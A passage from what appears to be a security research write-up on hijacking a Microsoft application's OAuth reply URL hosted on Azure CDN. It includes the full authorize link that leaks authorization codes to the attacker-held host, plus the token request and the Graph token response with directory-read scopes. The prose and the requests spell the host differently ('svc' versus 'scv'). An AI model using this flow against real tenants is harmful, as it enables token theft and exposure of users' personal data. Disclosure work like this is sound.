 With all that, an authorize request for this application and reply URL looked like this:

```
https://login.microsoftonline.com/common/oauth2/v2.0/authorize?
client_id=d6037e40-282c-493d-8f63-f255e36c6ef4&
response_type=code&
scope=https%3a%2f%2fgraph.microsoft.com%2f.default&
code_challenge=r28qDfmtnCyRedcGckQkfvFQHcBZA3_vLRPxWm8UWF4&
code_challenge_method=S256&response_mode=query&
redirect_uri=https%3a%2f%2fscv.azureedge.net%2fauth
&nonce=sddd
```

Visiting this URL with any user would redirect it, without consent, to `svc.azureedge.net` with an authorization code. Next, sending the appropriate request to the token endpoint returned the following token:

```
POST https://login.microsoftonline.com/common/oauth2/token

grant_type=authorization_code
scope=https://graph.microsoft.com/.default
code=0.AV8A...Ao_Upna
client_id=d6037e40-282c-493d-8f63-f255e36c6ef4
resource=https://graph.microsoft.com
code_verifier=aWiBCBNOF4xzGOCjmTA0IdQdSXj4lbS9oNiywvRYIAM
redirect_uri=https://scv.azureedge.net/auth

HTTP/1.1 200 OK
...
{
	"token_type": "Bearer",
	"scope": "Application.Read.All Group.Read.All Organization.Read.All RoleManagement.Read.Directory User.Read.All",
	"resource": "https://graph.microsoft.com",
	"access_token": "eyJ0e...yaQZgbN0_5GB_hlQ",
	"refresh_token": "0.AYI...h8w",
	"id_token": "eyJ...AifQ."
	...
}
```

And there we had it! We owned the site pointed by a reply URL from a Microsoft-owned application which was pre-authorized by MS Graph. The application returned a token with read access to the directory. On top of that, a regular user in Azure is authorized to read most of the information in a directory like applications, group, roles, etc. This means that regardless of the type of user that clicks on a link, you, as an attacker, will always get a list of all users and their details defined in the directory, including emails, phone numbers etc. Plus, it also allowed to query a list of all role memberships, so we could find out which accounts were Global Admins, for example.

## Increasing the impact
So far, we got read access to the directory. But wait, things didn't stop there.
